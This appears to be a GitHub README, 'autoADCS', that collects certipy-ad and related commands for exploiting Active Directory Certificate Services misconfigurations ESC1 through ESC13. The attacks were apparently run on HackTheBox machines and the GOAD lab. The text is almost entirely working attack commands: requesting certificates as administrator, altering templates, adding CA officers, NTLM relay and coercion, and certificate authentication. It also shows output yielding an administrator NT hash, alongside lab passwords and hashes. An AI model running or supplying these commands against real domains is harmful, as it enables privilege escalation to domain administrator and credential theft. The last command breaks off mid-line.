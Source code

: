 # autoADCS

### ESC1
Tested on https://app.hackthebox.com/machines/531
```
certipy-ad req -u ryan.cooper -p NuclearMosquito3 -target sequel.htb -upn administrator@sequel.htb -ca sequel-dc-ca -template UserAuthentication
```
OR OR OR 
```
certipy-ad req -username ryan.cooper -password NuclearMosquito3 -ca sequel-DC-CA -target sequel.htb -template UserAuthentication -upn administrator@sequel.htb    
```
#### faketime
```
➜  escape ntpdate -q sequel.htb
2024-12-24 15:38:16.851156 (-0500) +28800.109132 +/- 0.083870 sequel.htb 10.10.11.202 s1 no-leap
```
```
➜  escape faketime '2024-12-24 15:38:34' certipy-ad auth -pfx administrator.pfx
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@sequel.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:a52f78e4c751e5f5e17e1e9f3e58f4ee
```
### ESC4
Tested on https://github.com/Orange-Cyberdefense/GOAD
```
certipy-ad template -username khal.drogo@essos.local -password horse -template ESC4 -save-old

certipy-ad req -username khal.drogo@essos.local -password horse -ca ESSOS-CA -target essos.local -template ESC4 -upn administrator@essos.local
```
### ESC6
Tested on https://github.com/Orange-Cyberdefense/GOAD
```
certipy-ad req -username administrator@essos.local -password horse -ca ESSOS-CA -target essos.local -template User -upn administrator@essos.local
```
### ESC7
Tested on https://app.hackthebox.com/machines/572
```
certipy-ad ca -ca manager-DC01-CA -add-officer raven -username raven@manager.htb -p 'pass'

certipy-ad ca -ca 'manager-DC01-CA' -enable-template SubCA -username raven@manager.htb -password 'pass'

certipy-ad req -ca manager-DC01-CA -target dc01.manager.htb -template SubCA -upn administrator@manager.htb -username raven@manager.htb -p 'pass'

certipy-ad ca -ca manager-DC01-CA -issue-request 21 -username raven@manager.htb -p 'pass'

certipy-ad req -ca manager-DC01-CA -target dc01.manager.htb -retrieve 21 -username raven@manager.htb -p 'pass'
```
#### faketime
```
ntpdate -q 10.10.11.236

faketime '2024-12-19 08:12:01' certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.11.236
```
### ESC8
Tested on XXXXX-XXXXX
```
certipy-ad relay -target 'http://172.16.XX.XX/'

coercer coerce -u XX$@XXXXX.XX --hashes :3565f3f4123cfbd6fb880a0978fffc81 -l 10.XX.XX.XX -t 172.16.XX.XX --always-continue

certipy-ad auth -pfx XXXX.pfx
```
### ESC9
Tested on https://app.hackthebox.com/machines/Certified
```
certipy-ad req -username ca_operator@certified.htb -p 'Password123@' -ca certified-DC01-CA -template CertifiedAuthentication

certipy-ad account update -username ca_operator@certified.htb -hashes ':a091c1832bcdd4677c28b5a6a1295584' -user ca_operator -upn administrator@certified.htb

certipy-ad auth -pfx administrator.pfx -domain certified.htb
```
### ESC11
```
certipy-ad relay -target http://10.10.10.10 -ca SubCA
```
### ESC13
Tested on https://app.hackthebox.com/machines/595
```
certipy-ad req -u svc_cabackup -hashes :c9872f1bc10bdd522c12fc2ac9041b64 -ca mist-DC01-CA -template ManagerAuthentication -dc-ip 192.168.100.100 -dns 192.168.100.100 -key-size 4096

python3 gettgtpkinit.py -cert-pfx pfx_file /svc_cabackup ccache_file -dc-ip 192.168.100.100 -
```
